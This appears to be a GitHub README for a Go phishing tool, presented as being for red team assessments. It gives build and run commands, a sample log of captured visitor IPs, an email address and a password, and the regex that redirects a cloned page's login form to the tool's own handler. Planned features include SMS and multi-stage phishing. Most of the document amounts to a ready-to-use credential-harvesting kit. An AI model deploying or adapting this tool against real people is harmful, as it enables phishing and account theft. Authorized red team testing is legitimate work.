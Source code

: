 # FlyFishing 🎣
Quickly Deploy Phishing Webpages for Red Team Assessments 


# Description 🦠
Quickly deploy phishing webpages to lure victims in Red Team Assessments. This is a lighweight golang webserver which hosts the webpage locally or for one to host externally. 

# Deployment 🔨
```bash
git clone https://github.com/CharlesTheGreat77/FlyFishing
cd FlyFishing
go mod init main
go mod tidy
go build -o fishing main.go
```

# Usage 🎯
Templates can be found in **/templates** *or* found online.
```bash
./fishing -template templates/google.html
2024/09/23 06:16:27 [*] Server started at http://localhost:8888
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:39 [*] Client IP visiting the page: 192.168.0.42:54773
2024/09/23 06:16:58 [*] Client IP on login: 192.168.0.42:54775
2024/09/23 06:16:58 [*] Received form data:
2024/09/23 06:16:58 Field: login_password, Value: admin1233
2024/09/23 06:16:58 Field: remember_me, Value: on
2024/09/23 06:16:58 Field: login_email, Value: admin@gmail.com
```

# Templates 📝
How are templates processed?
By using regex to locate action attribute(s) in the form and points such to our /login handler
```golang
re := regexp.MustCompile(`(?i)(<form[^>]*action=")([^"]*)(")`)
modified := re.ReplaceAllString(html, `${1}/login${3}`)
```
* Redirection is based on file name, save templates to **templates** with the correlating website which the form is for (ie. linkedin.html)

# Todo 🧾
* Location Detection HTML5 Geolocation [ ]
* Email Creation and Obfuscation [ ]
* SMS capabilities [ ]
* Multi-Stage Phishing Support [ ]

# Disclaimer
This program should only be used on environments that you own or have explicit permission to do so. The author will not be held liable for any illegal use of this program.